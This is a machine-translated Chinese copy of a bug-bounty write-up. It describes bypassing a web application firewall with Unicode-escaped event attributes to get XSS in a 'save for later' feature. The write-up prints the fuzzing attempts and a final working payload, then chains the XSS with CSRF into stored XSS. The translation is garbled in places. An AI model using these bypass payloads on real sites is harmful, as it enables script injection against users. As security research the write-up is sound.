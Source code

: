 # Unicode vs WAF — XSS WAF 旁路。

> 原文：<https://infosecwriteups.com/unicode-vs-waf-xss-waf-bypass-128cd9972a30?source=collection_archive---------0----------------------->

嗨，读者们，

在第一个**开斋节，穆巴拉克**向所有人。愿真主在这神圣的时刻带给你快乐、幸福、和平和繁荣。在这个快乐的开斋节，祝你和你的家人快乐！**T3【艾德慕】T4！因此，在这个神圣的时刻，我想让我们分享我的一个发现，作为开斋节的奖励😜！**

从标题中你可能知道这是一篇关于 XSS 晶片旁路使用 **UNICODE** 的文章。因此，让我们给你一个关于我正在测试的应用程序的小想法。有一个选项叫做**保存以备后用**它保存你账户中的项目以备后用。该请求看起来像是:-

![](img/21f28a0b528069af03fb9eeec211cd5c.png)

我们的目标应用程序**保存为以后的**选项请求

如果用户通过了正确的身份验证，那么这个 post 请求将在用户帐户中保存项目以备后用，如果用户没有通过正确的身份验证，那么它将只返回一些值。因此，我手动模糊处理参数，并注意到**通道**参数值在经过身份验证的&和未经身份验证的场景中都反映在响应体中，而没有正确转义。我发送了一个通道参数值类似于**" channel ":" XSS \ "><"**的请求，响应是:-

```
<a class="link nc-text-regular nc-blue js-movetocart" data-giftitemid="<ID>" data-skuid="<ID>" data-itemnumber="<ID>"
                     data-productid="<ID>" data-channel="xss"><" data-quantity="1"
                     data-isbundleitem="false" role="link" tabindex="0" aria-label="label">Move to cart</a>
```

我们输入的值在 ***< a >*** 标记内，我们可以将其转义，因为**引号&小于/大于**符号没有被正确过滤。所以我认为我有很多方法在这里做 XSS，直到我输入**" channel ":" XSS \ " onclick = \ " alert(1)"**，得到的回应是:-

![](img/d93a07a39b4cabf8e2db03af9ce99171.png)

WAF！WAF！WAF！！！🤕

因此有一个晶片在适当位置。为了绕过它，我开始模糊，结果是:-

```
"channel":"xss\"onclick=\"alert(1)" ==> WAF
"channel":"xss\"xss=\"alert(1)" ==> WAF
"channel":"xss\"onclick=\"alert(1)" ==> WAF
"channel":"xss\"xss=\"xxx(1)" ==> No WAF
```

所以我尝试创建一个标签，而不是在**<>**标签中添加事件属性，我输入**" channel ":" XSS \ "><XSS>test "**，得到的响应是:-

```
<a class="link nc-text-regular nc-blue js-movetocart" data-giftitemid="<ID>" data-skuid="<ID>" data-itemnumber="<ID>"
                     data-productid="<ID>" data-channel="xss">test" data-quantity="1"
                     data-isbundleitem="false" role="link" tabindex="0" aria-label="label">Move to cart</a>
```

所以它也删除了看起来像标签的上下文。所以我们没有创建标签的优势。所以我们唯一的办法就是绕过 WAF 使用**<>**标签中的事件属性。所以我试着用[**html-event-attributes . txt**](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/xss/html-event-attributes.txt)**by[**fuzz db**](https://github.com/fuzzdb-project/fuzzdb)做了一个 bruteforce，看看有没有事件没有被 WAF 屏蔽，没有得到什么有趣的东西。然后我考虑了一下 unicode，输入了一个随机的 unicode，看看它是否能解码，结果它把 unicode 解码成了原来的字符。所以现在我又开始玩 **unicode+events** ，结果是:-**

```
"channel":"xss\"\u003E\u003Cxss\u003Etest" ==> data-channel="xss"><xss>test"
"channel":"xss\"xss=\"co\u006efirm(domain)" ==> No WAF
"channel":"xss\"onc\u006Cick=\"co\u006efirm(domain)" ==> HTTP/1.1 403 Forbidden
```

**所以我们有了新的优势，也有了新的问题。**

*   **优势是我们现在可以使用 unicodes 创建 HTML 标签。**
*   **缺点是，即使在使用 unicodes 之后，当我们添加一个事件 **onc\u006Cick** 时，我们会得到一个新的错误 **HTTP/1.1 403 Forbidden** 。**

**因此，我再次从[**html-event-attributes . txt**](https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/xss/html-event-attributes.txt)**+Unicode**制作了一个单词表，并且我得到了**on mous \ u 0045 leave**&**ond \ u 0072 ag**events，给出了 **HTTP/1.1 200 OK** ，我们还可以创建 HTML 标签。所以我做了最后一次装载**

```
xss\"\u003E\u003Ch1  onmous\u0045leave=co\u006efirm(domain)\u003ECome to Me\u003C/h1\u003E\u003Cbr\u003E\u003C!--
```

****响应正文为:-****

```
<a class="link nc-text-regular nc-blue js-movetocart" data-giftitemid="<ID>" data-skuid="<ID>" data-itemnumber="<ID>"
                     data-productid="<ID>" data-channel="xss"><h1  onmouseleave=confirm(domain)>come to me</h1><br><!--" data-quantity="1"
                     data-isbundleitem="false" role="link" tabindex="0" aria-label="label">Move to cart</a>
```

**![](img/809e534a36b044efc9dc5b3c8e1cd883.png)**

**未经验证的用户的基于帖子的 XSS**

**把鼠标指针放在**里，靠近我**然后离开&吊杆😎🤗**

**由于这是一个 POST 请求，并且没有 CSRF 保护，所以我为认证用户链接了 **CSRF + XSS = P2 存储的 XSS** 😎。**

**![](img/c76a4ffdcf0fda53c3ce9f4e4a816adc.png)**

****CSRF + XSS = P2 为认证用户存储 XSS** 😎**

**感谢阅读。看看我的 [**YouTube 频道**](https://www.youtube.com/channel/UCaFDPNZiwrzHjaV3rpyP64g) 我分享的一些 POC。**

****跟我来:-****

**[](https://twitter.com/prial261) [## prial Islam (@prial261) | Twitter

### prial Islam 的最新推文(@prial261)。一个热衷于破坏安全的少年😉😉😉。帕布纳…

twitter.com](https://twitter.com/prial261) [](https://www.facebook.com/prial261) [## 普里阿勒·伊斯兰·汗

### Prial Islam Khan 在脸书。加入脸书，与 Prial Islam Khan 和您可能认识的其他人联系。脸书给…

www.facebook.com](https://www.facebook.com/prial261) 

**欢呼**😋😉**